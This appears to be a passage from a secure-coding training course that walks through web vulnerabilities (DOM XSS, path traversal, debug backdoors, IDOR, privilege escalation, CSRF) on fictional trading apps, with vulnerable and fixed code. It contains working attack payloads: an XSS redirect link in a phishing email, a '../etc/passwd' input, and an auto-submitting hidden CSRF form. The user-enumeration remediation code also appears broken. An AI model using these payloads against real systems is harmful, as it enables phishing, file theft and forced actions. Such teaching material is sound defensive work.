First, Bob registers a domain called *fake-tradenews.codebashing.com* and configures it to point to his own web server. Then Bob configures his webserver to host a fake login and credit card payment page that copies the original design and layout of the TradeNEWS login web page hosted on tradenews.codebashing.com.

After that Bob crafts a malicious email to Alice, inviting her to join the TradeNEWS portal. He also offers her a 20% discount if she signs up via Bob's invitation link.

----
Hi Alice,
Hope you are well ! Please find below a 20% discount code to join TradeNEWS.


https://tradenews.codebashing.com/guests/landing#<script>window.location = 'https://fake-tradenews.codebashing.com';</script>
Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but information in the email looks relevant to her, so she decides to follow the link.

Alice is redirected to Bob's fake TraderNEWS login/signup page hosted on fake-tradenews.codebashing.com.

When Alice attempts to sign up with her payment card details, she submits them to Bob's fake web page, thereby compromising the security of her payment card!

Let's now analyze how Bob exploited the DOM XSS flaw on TraderNEWS portal.

.Vulnerable code
[source,javascript]
----
//
// Pseudocode for Landing web page
//
<h6>
<script>
​
    var name = document.location.hash.split('#')[1]; 
//https://tradenews.codebashing.com/guests/landing#guest
​
    document.write("Hello " + name + "! Please login or signup to access news stories");
​
</script>
</h6>
----

The recap, the name variable derives it's value from document.location.hash property by first calling the javascript `document.location.hash.split('#')[1]` 
The name variable is then concatenated with additional 'message text' and written to the Document Object Model (DOM) via the `document.write()` method. Note that the original URL from which the "guest" string was derived is *user controllable* and therefore considered as *untrusted input*. +
However a *lack of input validation for the name variable* means that Bob can now *inject malicious javascript code* through the TradeNEWS URL, thus achieving client side code execution in Alice's browser context.

==== Remediation

To defend against Cross-Site Scripting attacks in a Document Object Model (DOM) environment, a defense-in-depth approach is required, combining several security best practices.

You should recall that *Stored XSS* and *Reflected XSS injections* take place *server-side rather than client-side*. With DOM XSS, the attack is injected into the browser’s DOM thus adding complexity by making it very difficult to prevent and highly context specific (because an attacker can inject HTML, HTML Attributes, or CSS as well as URLs).

As a general set of principles, the application should *first HTML-encode* and *then JavaScript-encode any user-supplied data* that is returned to the client.

Due to the very broad attack surface, developers are strongly encouraged to review areas of code that are potentially susceptible to DOM XSS, including but not limited to:

*window.name document.referrer document.URL document.documentURI location location.href location.search location.hash eval setTimeout setInterval document.write document.writeIn innerHTML outerHTML*

Let us apply a suitable Regex pattern to remediate this DOM XSS vulnerability.

.Remediation
[source,javascript]
----
//
// Pseudocode for Landing web page
//
<h6>
<script>
​
   var name = document.location.hash.split('#')[1]; 
//https://tradenews.codebashing.com/guests/landing#guest
   
    if (name.match(/^[a-zA-Z0-9]*$/))
    {
        document.write("Hello " + name + "! Please login or signup to access news stories");
    }
​
​
    else
    {
        window.alert("Security error");
    }
</script>
</h6>
----

In our modified code example, an *additional check* is introduced which performs *input validation* against the name string variable. To accomplish this, we make use of javascript's `match()` method to run a *regular expression* search on name variable, *identifying non alphanumeric characters* e.g. `#` , `<` , `>` , `"` , `'` , `&` . +
Should any non alphanumeric characters be encountered, the if check will fail and invoke the "Security error" warning, thus preventing malicious javascript or HTML characters from being passed to the `document.write()` method.

How would you protect yourself from an XSS attack?

    * Encoding the output is the best approach as it takes into consideration all types of XSS attacks and mitigates them.

Here, we’ve learned that writing secure code to* protect against DOM XSS is a more difficult task* than writing secure code to prevent Persistent XSS and Stored XSS attacks, due to the much larger attack surface with DOM XSS. +
We’ve also learned that the application should *first HTML-encode* and *then JavaScript-encode any user-supplied (or otherwise untrusted) data* to improve the security posture against DOM XSS.

=== Insecure Direct Object References

==== Directory (Path) Traversal

*Directory (Path) Traversal* is an application vulnerability that allows an attacker to access directories and  files that are stored outside the web root folder. This type of vulnerability is found in applications that make insecure references to files based on user supplied input. A classic example is manipulating file location input variables with “dot-dot-slash (../)” sequences and its variations, to access arbitrary files and directories of the server's file system, such as sourcecode or password files, or other sensitive files.

The vulnerable application pane loads the TradeRESEARCH application, an online financial research application for traders that allows them to view the latest news and research articles related to their portfolio and trading strategies.

Alice is a trader and authorized user of the TradeRESEARCH system. She has just loaded the application in her web browser.

The vulnerable application pane loads the TradeRESEARCH application, an online financial research application for traders that allows them to view the latest news and research articles related to their portfolio and trading strategies.

Alice is a trader and authorized user of the TradeRESEARCH system. She has just loaded the application in her web browser.

As expected, the full article opens in Alice's browser.
Let us further analyze the URL returned by the server, https://traderesearch.codebashing.com/trade_news?file=5543 +
It ends with the following query string: `file = 5543`

TradeRESEARCH analysts draft financial research reports that are then uploaded as flat HTML files to the /tmp directory.

Let us study the source code used for serving these files to TradeRESEARCH users like Alice.

.Vulnerable code
[source,java]
----
public void doGet(HttpServletRequest request, HttpServletResponse response) {
​
  String result;
  String filename = request.getParameter("file");
​
  try {
     File file = new File("/tmp/" + filename);
     BufferedReader reader = new BufferedReader(new FileReader(file));
     String line = null;
     while((line = reader.readLine()) != null) {
        result += line;
     }
​
  } catch (Exception e) {
     e.printStackTrace();
  }
  try {
     response.getWriter().write(result);
  } catch (IOException e) {
     e.printStackTrace();
  }
}
----

To load the contents of a research report, the `request.getParameter()` method is first called to extract file value (from the HTTP request parameter) which is then assigned to the `filename` variable.
The `filename` variable is then passed to Java's `File()` method, which creates a File instance represented by the file pathname. In Alice's example the path name is set dynamically by appending the filename to our directory path `/tmp/` which translates to `/tmp/` filename

Note that the research analysts save their research as HTML flat files in the `/tmp` directory with a standardized file naming convention e.g. 5543 , 5544 , 5545 etc

The contents of this file are then read by the `while()` loop and stored in the string variable `result`

Finally, the result string is sent back as a response via the `response.getWriter().write(result)` code block which finally gets rendered within Alice's browser.

Based on what we have just seen in the source code, *it doesn't look like the application validates user-supplied input* that determines which file the application should read and then serve to the requesting user.

Alice decides to *tamper with the parameter fields* by changing the file value from the article number to the following:

    file=../etc/passwd

In fake browser, modify the URL by appending the `../etc/passwd` string as the argument for the file parameter, so that the final URL is :

    https://traderesearch.codebashing.com/trade_news?file=../etc/passwd

Interesting! Alice has just managed to access TradeRESEARCH's /etc/passwd file by simply appending `../etc/passwd` string to the file input !

The ability to traverse file paths and load arbitrary files from the system is called the Directory Traversal (or Path Traversal) attack. Let us now analyze the vulnerable code to understand how the attack was triggered at a code level.

To quickly recap, the `request.getParameter()` method is first called to extract the file value (from the HTTP request parameter) which is then assigned to the `filename` variable.+
However, note that *no input validation is performed on the `filename` variable*, which is directly concatenated with the `/tmp` path. +
Therefore, by injecting the dot dot slash ( ../ ) characters within the filename variable, Alice is able to traverse the web server's directory structure and access files outside the original `/tmp` folder path. This type of directory/folder subversion is also know as a directory traversal attack.

====== Remediation

As with any user-supplied input, it is important to *ensure that there is a context-specific input validation strategy* in place.

In the case of the TradeRESEARCH application, an obvious solution would be to, first, *canonicalize the full path name* and then to validate that the canonicalized path is in an *intended/allowed directory* on the file system.

Let us see how the above recommendation can be applied to our vulnerable example to remediate the Directory Traversal vulnerability.

.Remediation
[source,java]
----
public void doGet(HttpServletRequest request, HttpServletResponse response) {
​
  String result;
  String filename = request.getParameter("file");
​
  try {
     File file = new File("/tmp/" + filename);
     String canonicalPath = file.getCanonicalPath();
     if(!canonicalPath.startsWith("/tmp/")) {
       throw new GenericException("Unauthorized access");
     }
      BufferedReader reader = new BufferedReader(new FileReader(file));
     String line = null;
     while((line = reader.readLine()) != null) {
        result += line;
     }
​
  } catch (Exception e) {
     e.printStackTrace();
  }
  try {
     response.getWriter().write(result);
  } catch (IOException e) {
     e.printStackTrace();
  }
}
----

In our updated code fix, we make use of Java's `getCanonicalPath()` method which gets the full path string of Alice's file parameter by resolving the files relative path against the current directory, and further removes any relative pathing characters such as ./ and ../ +
Finally, the path string returned by `getCanonicalPath()` method is checked by Java's `startsWith()` method to ensure that Alice's file path begins with the `/tmp` path string. Should this check fail, the application will raise an `Unauthorized access` error and return, thus preventing Alice from loading files outside the `/tmp` directory structure.

=== Security Misconfiguration

==== Privileged Interface Exposure

*Privileged Interface Exposure* is a type of application weakness whereby a privileged (administration) interface is accessible to regular (low-privileged) users of the system. Because administration interfaces are only used by trusted administrator users, they are often overlooked from a security perspective. When exposed to the public Internet a malicious attacker could use the interface to her advantage. 

The vulnerable application pane loads the TradeMASTER application, an online trading platform. Registered users of the system can login to buy and sell stocks, bonds and currencies. Alice is a trader and registered (legitimate) user of the application.

Let's analyze the URL returned by the TradeMASTER application:

    https://trademaster.codebashing.com/trade_station?type=user

Notice that URL end's with the following query string: `trade_station?type=user`

Alice notices the `trade_station?type=user` query string in her web browser's address bar and decides to tamper with the parameter fields by changing the value from user to the following:

    1. type=test
    2. type=bob
    3. type=admin

Interesting ! By simply changing the type parameter value to *admin* , Alice was able to access a legacy administrative console on TradeMASTER.

Note, that this was not a software or code issue but a simple misconfiguration change which was released in production !

Although Alice does not have access to TradeMASTER's administrative credentials, the exposure of a sensitive system component can provide an additional attack surface for a malicious user to exploit.

For example, Alice could mount a password brute force attack against the legacy admin web console or attempt discovering SQL injection / Cross Site Scripting vulnerabilities.

Web application misconfigurations are a dangerous attack vector, since they can lead to the the entire system being compromised. These issue may occur due to default accounts, default pages and unprotected directories being enabled, which may contain sensitive information or provide additional attack interfaces for a potential attacker to investigate.

As a general rule of thumb, *always make sure to remove legacy content such as administrative interfaces, unused business logic or any application methods that were enabled for test and development purposes*.

Additionally, *all default web packages, scripts and manuals that are installed by default must be removed before deploying a business system in the production environment*.

==== Leftover Debug Code

A common development practice is to add "back door" code specifically designed for debugging or testing purposes that is not intended to be shipped or deployed with the application. When this sort of debug code is accidentally left in the application, the application is open to unintended modes of interaction. These back door entry points create security risks because they are not considered during design or testing and fall outside of the expected operating conditions of the application.

Bob is an attacker and has access to the TradeTECH website. However, he does not have valid access credentials to log in as an authorized user. Bob decides to search for weaknesses that will allow him to get unauthorized access. +
Bob starts from inspecting the HTML source for TradeTECH's login page to look for any clues that might help him.

[source,html]
----
<div class="loginInput">
<input type="text" class="variable" name="email" id="variable1"/>
</div>
​
<div class="loginInput">
<input type="password" class="variable" name="password"  id="variable2"/>
</div>
<!-- FIXME - For QA/Testing environment,append ?debug=1 flag within the URL to access the application without authentication. -->
<div class="loginControl">
<input type="submit" value="Log Me In" class="dredB logMeIn" id="btnStatus"/>
</div>
----

Browsing through TradeTECH's HTML source, Bob notices that the login web page contains an HTML comment that was unintentionally shipped into the production instance of the TradeTECH web application. +
Upon further inspection of this comment, it appears that TradeTECH developers have implemented functionality to bypass the authentication mechanism, in order to help QA teams run their test cases unobtrusively and without the additional overhead of authenticating each time.

By simply appending the query string `?debug=1` , a user can completely bypass the authentication mechanism and obtain access to the TradeTECH application!

Now that Bob has found the hidden debugging parameter, he tries to exploit this application functionality by appending the query string ?debug=1 to TradeTECH's default login URL +
In fake browser, modify the URL by appending the string ?debug=1 so that the final URL is:

    https://tradetech.codebashing.com?debug=1

Interesting! Bob managed to access TradeTECH's administrator web page by simply appending `?debug=1` query string to the URL!

But how did Bob manage to bypass the authentication end even get access to the administrative interface? Let us analyze the vulnerable server-side code to understand how this attack was triggered at a code level.

[source,java]
----
/* Authentication Code Snippet */
​
Boolean isAuthenticated = false;
HttpSession session = request.getSession(true);
​
if (request.getParameter("debug") != null && request.getParameter("debug").equals("1"))
{
   session.setAttribute("username", "admin");
   session.setAttribute("isAdmin", "true");
   isAuthenticated = true;
}
----

In the following code snippet, the `request.getParameter()` method is first called to test if debug parameter is present within the URL query string. +
Additionally, a check is performed to test if the `debug` parameter is set to 1

Should the previous if block condition return true the setAttribute method is called on line 9 and 10 to update the users session (in this case Bob) , specifically `username` is set to `admin` and `isAdmin` is set to `true`

Finally, the boolean variable `isAuthenticated` is set to true which indicates that the current session is authenticated, thus allowing a legitimate QA / Tester to bypass TradeTECH's authentication logic.

Unfortunately, no configuration checks are implemented to ensure that this code block is automatically disabled for non QA / Test environments, thereby allowing unauthorized users like Bob to bypass authentication within TradeTECH's "Production" instance.

==== Remediation

In web-based applications, debug code is helper functionality, used for testing and modifying web application properties, configuration information, and functions. If debug functionality is left on a production system, this will give attackers a chance to use it for bad.

Do not leave debug statements that could be executed in the source code. Ensure that all debug functionality and information is removed as a part of the production build process. Remove debug code before deploying the application.

Further, *leftover comments from the development process can reveal to would-be attackers potentially useful information* about the application's architecture, its configuration, version numbers, and so on, so please ensure these are removed too.

=== Sensitive Data Exposure

==== Authentication Credentials in URL

*Insecure Logging* is a type of application security vulnerability whereby the application is configured to either *log sensitive data to log files* (such as personally identifiable information, payment card information, or authentication credentials etc). Furthermore, if the application is not correctly validating user-supplied input that is then stored in logs, an attacker is able to maliciously manipulate log files.

The vulnerable application pane loads the TradeBOND application, an online trading platform that allows trading corporate bonds. +
Alice who is an authorized trader of the TradeBOND system has loaded the application in her web browser.

The LIVE LOG window displays TradeBOND's Apache web server log file. +
Note that TradeBOND's apache log file is configured to log standard HTTP GET and POST requests.

As Alice try logging in to the application a few times, try and guess her password a few times.

Keep your eye on the Live Log window, which is showing the backend web server’s log file in real time with the `tail –f webserver.log` command. You will notice that the GET requests are being logged here.

This means that a system administrator, web server administrator, or back-up administrator, or user with access to the log file would have access to the usernames and passwords for users of the application.

Furthermore, if the application was (insecurely) sending the login GET request via the unencrypted HTTP rather than HTTPS the credentials would also be visible to any upstream proxy!

.Live log examples
[source]
----
GET 200 https://tradebond.codebashing.com/site_log_in?email=kevin&password=dark

GET 200 https://tradebond.codebashing.com/site_log_in?email=admin&password=admin
----

Applications should be configured to *only accept login parameters* (e.g. A username and password pair, or other authentication material) *via a form submitted within a POST request*. This rule applies to any sensitive user-supplied data.

*Transmitting login credentials via GET requests is never a good idea* because URLs are inevitably stored in multiple places that an application developer has no control over. When the Login Credentials are present within the URL, and that URL is stored, it increases the likelihood of inadvertent login credential exposure. For instance, URLs are commonly stored in:

    1. Browser history
    2. Browser bookmarks
    3. Referrer headers when resources are linked
    4. Upstream proxy logs
    5. Web application logs

Note also that to further protect sensitive user-supplied data, *the application should only accept communication from a logged-in user over HTTPS*, and *never over HTTP*.

==== Session Exposure Within URL

*The most common flaw is simply not encrypting sensitive data*. When crypto is employed, weak key generation and management, and weak algorithm usage is common, particularly weak password hashing techniques. Browser weaknesses are very common and easy to detect, but hard to exploit on a large scale. External attackers have difficulty detecting server side flaws due to limited access and they are also usually hard to exploit.

The vulnerable application pane loads the TradeLOGIC application, an online trading platform. Registered users of the application can log in to buy and sell stocks, bonds, and currencies.

Alice is an authorized trader in the TradeLOGIC system. She has just opened the application in her web browser.

Let us analyze the URL returned by the server:

    https://tradelogic.codebashing.com/tradelogic/log-in?app_session_id=a5e036d9e646d0aa29bab72dcf4c93a6

The web application has assigned Alice a *unique session identifier* also known as a *session cookie*. In this example, Alice's session cookie is the following: `a5e036d9e646d0aa29bab72dcf4c93a6`

Alice tries to log in to the application with the following credentials:

    * Username: alice@bank.com
    * Password: alice123

While Alice is logging in, keep an eye on the Live Log pane where the backend webserver access logs for this application are displayed.

.Live Log
[source]
----
POST 302 /tradelogic/log-in?app_session_id=a5e036d9e646d0aa29bab72dcf4c93a6 redirect_to=https://tradelogic.codebashing.com/tradelogic/log-in?app_session_id=a5e036d9e646d0aa29bab72dcf4c93a6

GET 200 https://tradelogic.codebashing.com/tradelogic/log-in?app_session_id=a5e036d9e646d0aa29bab72dcf4c93a6
----

As you can see, when Alice logs in to the application, *her unique Session Udentifier gets automatically recorded in the backend web server log file*, thereby allowing other users to access her session information.

Another reason to *not transmit Session Identifiers via GET request but only via POST request* is that a user can accidentally share his own session with others when copy-pasting web links to another application.

Consider that Alice shares a link to the application on Twitter:

    https://tradelogic.codebashing.com/tradelogic/myprofile?app_session_id=a5e036d9e646d0aa29bab72dcf4c93a6

If Alice is currently logged in to the application, then any follower that clicks this link becomes logged in as Alice!

Another reason why *transmitting session identifiers via GET requests* is *not a good idea* is that URLs can be *stored in multiple places* that an application developer has no control over. When the session identifier is specified within the URL, and this URL is stored somewhere, it increases the likelihood of accidental session identifier exposure which is the first step to session hijacking.

For instance, URLs are commonly stored in:

    1. Browser history
    2. Browser bookmarks
    3. Referrer headers
    4. Upstream proxy logs
    5. Web application logs
    6. Wireless Access Points
    7. Routers

Ensure that *session identifiers* are not transmitted to the application via GET requests, *only via POST requests*. +
To further protect the session identifier, the application should only accept communication from a logged-in user over *HTTPS*, and never over HTTP.

Why does sending a session identifier in the URL pose a security risk?

    * The URL is saved in multiple locations on its way, thus the session ID can be disclosed

==== User Enumeration 

*User Enumeration* is a type of application security vulnerability whereby the vulnerable web application reveals whether a username (email address or account name) exists or not, this can be a consequence of a misconfiguration or a design decision. The information obtained via user enumeration can then be used by an attacker to gain a list of users on system. This information can  be used to further attack the web application, for example, such as through a brute force credential guessing attack.

The vulnerable application pane loads the TradeBROKER application, an online brokerage platform.

Bob is an unauthorized user, he does not have a valid username and password to the application.

-> Take the role of Bob and type in any username and any password then click the SIGN IN button.

The login attempt failed, the username or password was invalid.

Bob doesn't know the username or password of any valid users and decides to explore the *forgotten password* function.

The forgotten password functionality allows a user reset his or her password. If a valid user's email address is entered, an email is then sent with instructions on how to reset the password.

Bob tries using this feature to submit the following email addresses:

    1. jim@bank.com
    2. bob@bank.com
    3. alice@bank.com

1. As Bob try submitting the above email addresses.
2. Observe the status message returned by the application upon each forgotten password submission.

Interesting. The last email, belonging to Alice, resulted in a success message, whilst the (non-existent users, Jim and Bob) resulted in a failure message. +
When it is possible to *determine whether a user name is valid or not*, it is known as a *Username Enumeration vulnerability*.

NOTE: 'Username Enumeration' can exist in other areas of an application, not just within a 'Forgotten Password' function.

.Vulnerable code
[source,html]
----
//
// The following is a code snippet illustrating a user enumeration vulnerability in Java
//
​
<c:choose>
    <c:when test="${statusCode === 'emailNotFound'}">
        <div id="reminder-message">We are unable to find an account matching the email address you entered. Please contact an administrator.</div>
    </c:when>
    <c:when test="${statusCode === 'emailFound'}">
        <div id="reminder-message">A reminder email has been sent to this user.</div>
    </c:when>
</c:choose>
----

In order to generate the TradeBROKER "Forgotten Password" status page, the application developers have used the JSP Standard Templating Library (JSTL) which provides standard actions and methods for formatting HTML.

To display the correct "error" or "success" password reminder message, the `c:when` test expression is called to evaluate the status code ( emailNotFound or emailFound ) returned by the application controller.

Unfortunately, the developers have used a verbose message detailing the reason for a nonexistent username, which can be exploited by a user ( Bob ) to enumerate users registered on the TradeBROKER system.

Addressing this specific issue is straightforward, a simple change to the application to return the following message (whether or not the user exists) would suffice:

    "A forgotten password reminder email has been sent to the address on file (if the username is valid). Please check your emails."

Let's take a look at the fixed code.

.Remediation
[source,html]
----
// The following is a code snippet illustrating a user enumeration vulnerability in Java
//
​
<c:choose>
    <c:when test="${statusCode === 'emailNotFound'}">
        <div id="reminder-message">We are unable to find an account matching the email address you entered. Please contact an administrator.</div>
                <div id="reminder-message">A reminder email has been sent to this user.</div>
    //    </c:when>
    <c:when test="${statusCode === 'emailFound'}">
        <div id="reminder-message">A reminder email has been sent to this user.</div>
    </c:when>
</c:choose>
----

Looking at our modified error response text, we have successfully remediated the user enumeration vulnerability by *ensuring that the application responds with the same error message and length regardless of if the user is unregistered or present* on the TradeBROKER application.

Some application has login and password forms for authenticating users. The application returns "The user doesn't exist" in case the username doesn't exist and "Wrong password" if the username exists and the password is wrong. Is the application vulnerable?

    * Yes! Verbose errors allow the attacker to enumerate usernames and run further attacks on existing users

=== Missing Function Level Access Control

==== Horizontal Privilege Escalation

*Horizontal Privilege Escalation* is an application vulnerability that *allows one (normal) User of an application to create, read, update and/or delete the data belonging to another (normal) User*. This type of vulnerability is often the result of errors in the authorization logic.

The vulnerable application pane loads the TradeJOB application, an online trading platform. Registered users of the application can log in to buy and sell stocks, bonds, and currencies. Bob is a trader and registered (but malicious) user of the TradeJOB application.

The TradeJOB developers have implemented the *Edit Profile feature*, allowing users to customize and update their user profile information.

Bob decides to update his personal details, so he clicks the *Edit Profile* button to open his profile page.

Let us analyze the URL returned by the TradeJOB application for updating Bob's user profile:

    https://tradejob.codebashing.com/trade_job/edit_profile?uid=1000750

Notice that the URL end's with the following string: `uid=1000750`.

Before we proceed with our Horizontal Privilege Escalation attack, let us first analyze the TradeJOB's source code, specifically the Edit Profile functionality used to update the user profile.

.Vulnerable code
[source,java]
----
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
​
    String uid = request.getParameter("uid");
    ​
    PreparedStatement qUser = null;
    String qString = "select * from users where userid = ?";
    ​
    qUser=conn.prepareStatement(qString);
    qUser.setString(1,uid);
    ResultSet user = qUser.executeQuery();
    ​
    while(user.next())
    {
        request.setAttribute("name",user.getString("name"));
        request.setAttribute("email",user.getString("title"));
        request.setAttribute("phone",user.getString("email"));
        request.setAttribute("institute",user.getString("phone"))
    }
    ​
    request.getRequestDispatcher("/WEB-INF/templates/edit_profile.jsp").forward(request, response);
}
----

To implement the "Edit User" functionality, the `doGet()` method extracts a logged-in user's uid value by invoking `request.getParameter()` method, which is then assigned to the uid string variable.

The variable `qString` is then declared, which represents the SQL query used to lookup a user's (Bob) profile information. +
Note, that Bob's `uid` value is passed as a parameterized query on line 9 using the `setString` method.

The SQL statement is then executed by invoking the `executeQuery` method. This method executes our query against the back end SQL server and returns a `ResultSet` object containing the user's (Bob's) profile information.

Finally, the `getRequestDispatcher()` method is invoked on line 20 and the user is redirected to their edit profile web page.

Bob notices the `edit_profile?uid=1000750` query string in the address bar and decides to tamper with the parameter fields by changing the value of uid from 1000750 to the following:

    1. uid=1000775
    2. uid=1000800

Interesting! Bob managed to get access to Alice's profile by simply changing the uid value to 1000800 in the URL! +
Let us further analyze the vulnerable server-side code to understand how this attack was triggered at a code level.

In the previous code, unfortunately, the SQL statement used to fetch Bob's profile *does not perform any authorization / user context awareness checks* and further allows direct referencing of objects via the uid parameter. +
This means that a malicious user can simply manipulate the uid variable to *access other objects (user profiles) within the application without proper authorization*. +
This is also known as an *"Insecure Direct Object Reference"* (IDOR) attack.

====== Remediation

In our example, a simple point-and-fix solution is not to rely on the user-supplied data when performing authorization checks. Although the example presented in this lesson can seem unrealistic, this type of vulnerability is still seen in production web applications.

Depending on the nature of the application, authorization models can vary in complexity. *Common role-based access control models* include:

    1. Groups > Users
    2. Groups > Users > Permissions

For the general case, it is critical to consistently check that any user CRUD operation is authorized, and authorization is performed according to the well-defined access control model.

However, if you must expose direct references to database structures, ensure that *SQL statements* and other database access methods *only allow authorized records to be displayed*. This can be achieved by adding context awareness to the SQL query so that it filters out only profile information that the user has permissions to access.

.Remediation
[source,java]
----
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
​
    String uid = request.getParameter("uid");
    String currentUser = request.getUserPrincipal().getName();
    ​
    PreparedStatement qUser = null;
    //String qString = "select * from users where userid = ?";
    String qString = "select * from users where userid = ? and username = ?";
    qUser=conn.prepareStatement(qString);
    qUser.setString(1,uid);
    qUser.setString(2,currentUser);
    ResultSet user = qUser.executeQuery();
    ​
    while(user.next())
    {
        request.setAttribute("name",user.getString("name"));
        request.setAttribute("email",user.getString("title"));
        request.setAttribute("phone",user.getString("email"));
        request.setAttribute("institute",user.getString("phone"))
    }

    request.getRequestDispatcher("/WEB-INF/templates/edit_profile.jsp").forward(request, response);
}
----

In our modified code example, we first extract the current logged in users security / authorization context (username) by invoking the `getUserPrincipal().getName()` method, which is assigned to the `currentUser` string variable.

Note that `currentUser` variable will be used as our authorization context variable.

Finally, we pass `currentUser` as an additional parameter to our modified SQL query, which will perform an additional context check (via the username) field, ensuring *only the current logged in users profile is loaded* by the application server.

==== Vertical Privilege Escalation

*Missing Function Level Access Control* is an application vulnerability that allows either an Anonymous User or Legitimate User of the application to access the create, read, update and/or delete functionality belonging to another user of the application. This example we show how Vertical Privilege Escalation is a potential outcome of this vulnerability.

The vulnerable application pane loads the TradeSOCIAL application, an online trading platform. Registered users of the application can log in to buy and sell stocks, bonds, and currencies.

Bob is a trader and registered (but malicious) user of the TradeSOCIAL application.

The TradeSOCIAL developers have implemented the Manage Profile feature, allowing users to customize and update their user profile information. Bob decides to update his user profile and clicks the Manage Profile button to start editing.

Let us analyze the URL returned by the TradeSOCIAL application for updating Bob's user profile:

    https://tradesocial.codebashing.com/trade_social/user/show 

Note that it ends with the following string: `user/show`.

Bob decides to tamper this URL, hoping to access potentially restricted features within the TradeSOCIAL application. +
He does this by replacing the keyword user with admin resulting in the following URL:

    https://tradesocial.codebashing.com/trade_social/admin/show

Interesting! Bob managed to get *access to TradeSOCIAL's administrator web page* by simply changing the user keyword to admin in the URL!

Let us further analyze the vulnerable server-side code to understand how the attack was triggered at a code level.

.Vulnerable code
[source,java]
----
public class GetAllUsers extends HttpServlet implements Servlet
{
​
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException
    {
        Subject currentUser = SecurityUtils.getSubject();
        String url = "/login.jsp";
        // Return full list of users
        if (currentUser.isAuthenticated())
        {
            url = "/admin/show.jsp";
            List<User> userList = UserDAO.getAllUsers();
            request.setAttribute("userList", userList);
        }
        RequestDispatcher dispatcher = getServletContext().getRequestDispatcher(url);
        dispatcher.forward(request, response);
    }
}
----

As part of TradeSOCIAL's administrative interface functionality, the developers have implemented the `GetAllUsers` class, which implements a method to list all registered application users.

To implement this functionality, the `doGet()` method firstly extracts the current user by invoking `getSubject()` method, which returns the currently logged in user ( Bob )

An access control check is then performed by the if block on line 9 (via `isAuthenticated()` method). Should this check pass, a list of all users is returned via the `getAllUsers()` method on line 12

Unfortunately, the application developers have failed to incorporate a correct authorization check, to ensure that the user is *not only authenticated*, but *also authorized with "admin" privileges* (role), thereby allowing an unprivileged user ( Bob ) to access TradeSOCIAL's administrative console.

====== Remediation

In our example, a simple point-and-fix solution is to ensure that the user is not just authenticated, but also has the correct role to access the administrative functionality.

However, the larger and more complex an application is, the greater is the probability of even a single *missed authorization check*. For this reason, a *pattern-based approach to ensuring authorization* across any application should be consistently applied.

To make life easier, many frameworks provide built-in functionality to assist with this. For instance, *Java Spring Framework* provides support for *Expression-Based Access Control with the `hasRole([role])` expression*.

Furthermore, in *version 3.0 Spring Security framework* added *Method Security Expressions* which introduced additional *annotations*, including `@Pre` and `@Post` annotations.

In the example below, access to the method will only be allowed for users with the role "ROLE_USER”:

[source,java]
----
@PreAuthorize("hasRole('ROLE_USER')")
public void create(Contact contact);
----

.Remediation
[source,java]
----
public class GetAllUsers extends HttpServlet implements Servlet
{
​
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException
    {
        Subject currentUser = SecurityUtils.getSubject();
        String url = "/login.jsp";
        // Return full list of users
     if (currentUser.isAuthenticated() && currentUser.hasRole("admin"))
    //        if (currentUser.isAuthenticated())
        {
            url = "/admin/show.jsp";
            List<User> userList = UserDAO.getAllUsers();
            request.setAttribute("userList", userList);
        }
        RequestDispatcher dispatcher = getServletContext().getRequestDispatcher(url);
        dispatcher.forward(request, response);
    }
​
}
----

In our updated code fix, we make use of *Java Spring framework's `hasRole()`* method which returns true if the current user has the specified role, ensuring that the user ( Bob ) must first pass both authentication and authorization checks to access TradeSOCIAL.

What is an example of the vertical privilege escalation in a web application?

    * Gaining access to the administrative interface of a web application, using a user account that does not have any administrative privileges +
    Vertical privilege escalation means that the attacker gets access to the application's functionality that requires special privileges. For example, when a regular user gets access to the user management functionality that only the admin should be able to access.

=== Cross-Site Request Forgery

==== Cross Site Request Forgery (POST)

*Cross-Site Request Forgery (CSRF)* is an application security vulnerability  that permits an attacker to force another logged-in user of the application to perform actions within that application without realising. The classic example is Bob and Alice both being logged-in users of an online banking application, and Bob tricks Alice into making a funds transfer to Bob's account with CSRF. Importantly, in CSRF attacks the attacker does not have a direct mechanism for seeing the application's response to the victim.

The vulnerable application pane loads the TradeIDEA application, an online platform that allows for the creation and sharing of trading strategies.

Alice is a trader and authorized user of the TradeIDEA system. She opens the application in her web browser.

Go ahead and create the following three trade ideas:

    1. Trade TRV given Oil is up to $90
    2. SELL SSW short if it goes over $30
    3. AWW, NSD and TRE at an all time low - BUY

The developers of TradeIDEA have recently enabled a new *Delete All feature* that allows for bulk deletion of trade ideas. Before we continue with the exercise, let us analyze this feature in more detail.

[source,html]
----
//
// HTML codebehind for "Delete All" button
//
​
<form action="/ideas/delete_all" method="post">
  <input type="hidden" name="scope" value="all">
  <button class="button redB" id="delete_button" style="margin: 5px;">Delete All</button>
</form>
----

The *Delete All* action is defined as an HTML `form` tag, which submits a POST HTTP request to TradeIDEA's `/ideas/delete_all` URL resource. +
An additional `input` tag is declared to pass the query parameter `scope` with the value `all` as part of this POST request. +
Finally an HTML `button` tag is declared to submit the Delete All `form` with the query parameter `scope=all`

Bob is an attacker. He has just discovered a CSRF vulnerability within the TradeIDEA application. +
To exploit the vulnerability, Bob registers a domain called *fake-research.codebashing.com* to host a malicious web page.

Let us quickly analyze the HTML source for Bob's malicious web page before proceeding with the CSRF attack.

.Malicious code
[source,html]
----
<html>
<body>
​
<p>We are experiencing some technical problems. Our website is expected to be back online shortly. We apologize for the inconvenience.</p>
​
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='https://tradeidea.codebashing.com/ideas/delete_all' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='scope' value='all'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
​
</body>
</html>
----

Browsing through Bob's malicious HTML, we notice that the web page is programmed to display a fake "Server Downtime" message, which an unsuspecting victim will believe to be a genuine website issue. +
Bob has also declared an `iframe` within his malicious web page that has been styled using the CSS property `display: none` to *ensure that the iframe is not visible* once Alice has loaded Bob's malicious web page.

NOTE: We will learn later in the exercise why this iframe is needed for Bob's CSRF attack to work.

Finally Bob has declared an HTML `form` tag that submits a POST HTTP request to TradeIDEA's `delete_all` method. +
Notice the javascript code on line 10. Any guesses on what this code might do ?

Bob then writes a malicious email to Alice, asking her to check out the new financial research portal.

----
Hi Alice!

Following our conversation on Tuesday, sending you the link to that cool financial news portal that my colleagues shared with me. This is definitely the best source of the latest news from business and industry experts!

